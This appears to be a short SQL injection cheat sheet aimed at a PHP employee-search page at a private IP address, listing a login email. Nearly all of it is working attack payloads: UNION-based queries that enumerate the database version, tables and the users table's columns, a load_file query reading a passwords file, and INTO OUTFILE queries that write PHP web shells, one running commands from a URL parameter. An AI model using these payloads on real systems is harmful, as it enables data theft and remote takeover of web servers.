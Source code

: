# Advanced SQL Injection Exploitation. 


Login Information 

http://192.168.43.66/ems/searchemp.php 

NKader@gmail.com - admin


###Enumeration of information 


	admin' union select 1,2,3,4,5,6,7,8,9# 

	admin' union select version(),2,3,4,5,6,7,8,9# 

	admin' union select group_concat(table_name),2,3,4,5,6,7,8,9 from information_schema.tables where table_schema=database()# 

	admin' union select group_concat(column_name),2,3,4,5,6,7,8,9 from information_schema.columns where table_name='users'# 
	

### Loading the File 


```
admin'union select load_file('C:\\passwords.txt'),2,3,4,5,6,7,8,9-- 
```

### Writing the File 

```

admin'union select ("<?php echo shell_exec('dir > filename1.txt')>"),2,3,4,5,6,7,8,9 into outfile "shell.php" --  

admin'union select ("<?php system($_GET['cmd'])?>"),2,3,4,5,6,7,8,9 into outfile "shell1.php" --  

```